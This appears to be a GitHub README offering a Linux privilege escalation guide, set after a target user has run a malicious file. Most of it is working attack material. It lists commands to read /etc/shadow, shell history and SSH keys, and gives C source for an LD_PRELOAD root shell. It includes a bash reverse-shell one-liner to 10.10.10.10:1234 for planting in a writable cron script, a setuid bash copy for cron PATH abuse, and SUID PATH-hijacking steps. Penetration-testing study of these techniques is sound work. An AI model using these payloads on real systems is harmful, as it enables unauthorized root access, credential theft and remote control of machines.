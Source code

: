 # Linux-PrivEsc-full-guide

Hi Folks! I made this repo that share the privilege escalation techniques I tend to use on Linux systems. At the moment, you will see basic stuff which works the best IRL but later I am going to add CTF specific techniques. Let's get into it!

# Enumeration

So, one of the your target company's users downloaded and executed a malicious file you happened to send them. You found credentials in clear text and connected back to the machine using SSH. What's the first thing you do? Identify where the hell are you and what you can do at this point of the engagement. For that I use the following commands:

## Some basic enumeration and easy wins
```sh
cat ~/.*history | less             # identify previously executed commands in the shell
whoami                             # enumerate the user
id                                 # enumerate the user
cat /etc/{passwd,shadow,group}     # check if we can see the stored passwords, users, groups
ls -l /etc/{shadow,passwd}         # check if we can write into the previously mentioned files
cat /etc/{passwd,group}            # same but without shadow (usually 'Permission denied')
ps aux | grep --ignore-case root   # see unusual processes and processes run by the root user
ls -l /.ssh                        # look for SSH keys, that you can download and connect back
locate "/*.ovpn"                   # identify vpn files that could help you pivot
find . -type f -iname "*vpn*"      # same just with the find command
```

## Further enumeration of the system, kernel version, errors..etc
```sh
hostname
hostname --all-{fqdns,ip-addresses}
uname --kernel-{name,release,version}
uname --all
lscpu

cat /proc/{version,issue}
cat /etc/os-release

# for modules
lsmod
lsmod | cut -d ' ' -f 1 | sort --unique

# oneliner: outputs errors(e.g the usual shadow permission denied) to file `err`
cat {/proc/{version,issue},/etc/{passwd,shadow,group,os-release}} 2>err

# to check which commands I can run as
# a super user without the password
sudo -l
```

`sudo -l` is the first thing you execute after gaining a foothold, you can have some easy wins with that. After checking the output go to https://gtfobins.github.io/ and note down, the binaries which are present on the system and can be executed with the sudo command without knowing the pass.

After executing `sudo -l` check the value of LD_PRELOAD, \
if you see something like this: `env_keep += LD_PRELOAD` - Than you can use the following little `C src` to gain root access:

### C Source code

in.c

```c
/*
 * author: An00bis
 * file: in.c
 */

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init(){
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

### Compilation
Usually, gcc is by default installed on most* systems.
We can compile it with `gcc -o out.elf in.c`
which takes `in.c` (our c source) 
and outputs `out.elf` (a executable) \
to run it: `./out.elf`


# Cron Jobs

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.
```
cat /etc/crontab                      # check for cron jobs
locate example.sh                     # Find from where the file executes
ls -l /usr/local/bin/example.sh       # check if the file is world-writable

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/1234 0>&1  # Overwrite the file with this simple one-liner, open up a listening port on 1234 and wait for the call-back
```
```
cat /etc/crontab                      # check for cron jobs, look for the PATH variable

Here I will leave an example: /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin. In this case the PATH variable is /home/user, we are going to invoke a shell here with root priviliges.

Create a file with the following content:


#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash


chmod +x /home/user/example.sh        # make the file executable and wait a minute or two
/tmp/rootbash -p                      # invoke the shell with the following command, the -p switch maintains the permission of the owner.
```
```
cat /usr/local/bin/example.sh         # check the content of a cronjob and look for wildcards (*)
```
Check gtfobins for exploitation methods and use them. You can find a lot of things, but the basic idea is that you trick the program to think that the commands thar are going to be executed are part of it's features. This way you can gain trick the binary to rain a metasploit reverse-shell, execute additional commands or to simply elevate you to root.


# Network enumeration

```sh
ifconfig   # to see network interfaces, ip addresses..etc
ip a       # alternative for ifconfig
ip -c a    # output in color
arp -a     # check to ARP table and discover additional assets on the subnet
ip neigh   # alternative for the arp command
ip route   # check the route table and discover gateways, additional IPs
netstat    # to see active connections

wireshark                                 # The network traffic analyzer - Wireshark
tcpdump -i <interface> -s 65535 -w <file> # The command-line network traffic analyzer - TCPDump
```

## Try to sniff traffic, it's less noisy and you have more data to work with during the engagement

# SUID / GUID binaries

The flags setuid and setgid are needed for tasks that require different privileges than what the user is normally granted, such as the ability to alter system files or databases to change their login password. When the setuid or setgid attributes are set on an executable file, then any users able to execute the file will automatically execute the file with the privileges of the file's owner (commonly root) and/or the file's group, depending upon the flags set. I highly suggest to you to do your research on this topic because I can't cover everything in a single gitHub post.


```sh

# Identify files where both
# the setuid and setgid flags are set
find . -perm /6000

# same just with a different command
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

# Look for public exploits using
# Google, Exploit-db, Yandex...etc

# strace
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"          

# Use this commands on the binary to see the objects it's trying to load,
# try to overwrite objects with a reverse-shell to gain root access.

strings /usr/local/bin/example

# From the strings output check the paths,
# from where the other executables are called.
# Try to overwrite them with a simple bash shell,
# add the route to the PATH variable and execute the file.

PATH=.:$PATH /usr/local/bin/example
./example
```

# Before finishing

This is just quick overview of this topic, as you can see, most of the time we overwrite files, abuse call functions and use public exploits to elevate our priviliges but with a little creativity you can do so much more. :)

If permitted use automatization tools to not lose too much time on this part of the penetration testing process:

* https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
* https://github.com/The-Z-Labs/linux-exploit-suggester

Resources to help you understand better the privilige escalation process:

* https://www.udemy.com/course/linux-privilege-escalation/?referralCode=0B0B7AA1E52B4B7F4C06
* https://tryhackme.com/room/linuxprivescarena
* https://tryhackme.com/room/linuxprivesc
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md




